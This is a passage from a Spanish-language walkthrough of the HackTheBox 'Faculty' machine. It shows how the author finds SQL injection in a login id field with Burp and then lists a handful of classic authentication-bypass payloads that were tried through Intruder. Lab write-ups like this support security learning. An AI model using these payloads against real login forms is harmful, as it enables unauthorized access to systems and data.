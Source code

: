 ![](/assets/images/HTB/Faculty-HackTheBox/burp1.webp)

Primeramente voy a comprobar si el id podría ser vulnerable a sql y así iniciar sesión.

Asique voy a añadir una comilla en el campo del id, y si nos arroja un error significa que es vulnerable a sqli.

![](/assets/images/HTB/Faculty-HackTheBox/burp2.webp)

Por lo visto, es vulnerable a sqli, asique pruebo a meter algún payload sqli.

Metiendo una lista simple de inyecciones sql simples a través del intruder encuentro varias inyecciones que podrían servirme:

```bash
# Payloads SQL
--------------
´ OR ´1
´ or 1 -- - 
´ OR " = ´
´=´
´ or ´x´=´x
´ or 1=1#
```
